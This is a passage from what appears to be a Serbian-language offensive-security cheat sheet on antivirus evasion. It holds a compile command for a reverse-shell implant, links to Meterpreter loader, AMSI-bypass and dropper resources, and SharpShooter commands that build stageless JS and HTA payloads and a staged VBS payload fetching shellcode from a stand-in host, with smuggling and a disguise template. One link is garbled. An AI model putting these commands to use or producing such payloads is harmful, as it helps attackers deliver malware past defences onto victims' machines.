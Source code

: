 ```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Korišćenje pythona za izgradnju primera ubacivača:

* [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Ostali alati

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
